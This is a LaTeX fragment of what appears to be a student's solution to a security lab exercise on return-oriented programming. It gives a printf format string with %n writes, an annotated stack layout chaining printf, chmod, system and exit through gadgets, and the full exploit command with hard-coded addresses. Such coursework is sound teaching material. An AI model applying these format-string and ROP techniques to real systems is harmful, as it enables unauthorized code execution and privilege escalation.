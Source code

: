 \documentclass[a4paper,11pt]{article}
\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}
\begin{document}
\begin{itemize}
  additional inputs that you need? Please specify the exact unix commands that
  you used to do this.
\ifsolution\begin{solution}
The commandline input will be the string which does the buffer overflow, the run-time input will be the name
of the file \texttt{"./somefile.sh"} and an environment variable will retain the format string for printf
\texttt{"\%384x\%n\%64x\%n"}; for this I used \texttt{export INPUT1=\%384x\%n\%64x\%n}.
\end{solution}\fi
\item Please sketch the stack layout that you used with annotations if
necessary.
\ifsolution\begin{solution}
The only small problem that I had was that it was difficult to jump from a call of \texttt{chmod} to the
next function because is had two parameters. In this case, I also used some instructions which were already
at the end of the \texttt{system} function, which did \texttt{sub \$esp, 0x8; pop ebx; ret;}, so I could
skip a total of 4 words. But, in this new case, I had to add an empty word after the last parameter of \texttt{chmod}, so that
2 parameters + return address + empty word equals 4, the number of skipped words on the stack.
The stack looks like this:
\begin{lstlisting}
0xaaaaaaaa <- empty
0xb7e2eb50 <- exit
0xaaaaaaaa <- empty
0xaaaaaaaa <- address of second mode parameter on the stack
0x080499a5 <- helpstr
0xb7e3b010 <- sub esp, 0x8; pop ebx; ret;
0xb7ed9010 <- chmod
0x080499a5 <- helpstr
0xb7e3b016 <- pop ebx; ret;
0xb7e3afe0 <- system
0xaaaaaaaa <- empty
0xaaaaaaaa <- first_mode_parameter
0x080499a5 <- helpstr
0xb7e3b010 <- sub esp, 0x8; pop ebx; ret;
0xb7ed9010 <- chmod
0xbffff958 <- address of first mode parameter on the stack
0xb7e3b016 <- pop ebx; ret;
0xbffff978 <- address of second mode parameter on the stack
0xb7e3b016 <- pop ebx; ret;
0xbffffec7 <- address of environment variable INPUT1
0xb7e3b016 <- pop ebx; ret;
0xb7e4a270 <- printf
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0x41414141
0xbffffb54 <- address of parameter to cpybuf
0xbffff918 <- address of local buffer

\end{lstlisting}

The $esp$ is currently at \texttt{0xbffff910}, so one can verify that the addresses of the chmod
parameters are good.

\end{solution}\fi
\item What is the final exploit string that you used to accomplish this task?
\ifsolution\begin{solution}
The final exploit command is \textsf{./rop '`./geninput 0xb7e4a270 0xb7e3b016 0xbffffec7 0xb7e3b016 0xbffff978 0xb7e3b016 0xbffff958 0xb7ed9010 0xb7e3b010 0x80499a5 0xaaaaaaaa 0xaaaaaaaa 0xb7e3afe0 0xb7e3b016 0x80499a5 0xb7ed9010 0xb7e3b010 0x80499a5 0xaaaaaaaa 0xaaaaaaaa 0xb7e2eb50 0xaaaaaaaa`'} and the results can be seen in Figure~\ref{fig:exploit}.
\end{solution}\fi
\end{itemize}
\end{document}
